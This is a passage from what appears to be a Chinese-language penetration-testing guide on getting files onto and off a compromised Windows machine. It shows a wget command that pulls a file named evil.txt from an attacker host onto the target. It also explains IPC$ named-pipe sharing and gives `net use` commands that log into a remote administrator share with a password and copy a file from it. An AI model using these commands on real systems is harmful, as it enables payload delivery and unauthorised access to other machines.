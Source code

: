 **4、wget**

Windows环境下，可上传免安装的可执行程序wget.exe到目标机器，使用wget下载文件。

wget.exe下载：[https://eternallybored.org/misc/wget/](https://eternallybored.org/misc/wget/)

```text
wget -O "evil.txt" http://192.168.28.128/imag/evil.txt
```

![](../.gitbook/assets/20200413-4.png)

**5、ipc$文件共享**

IPC$\(Internet Process Connection\)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

```text
#建立远程IPC连接
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"
#复制远程文件到本地主机
copy \\192.168.28.128\c$\2.txt D:\test
```
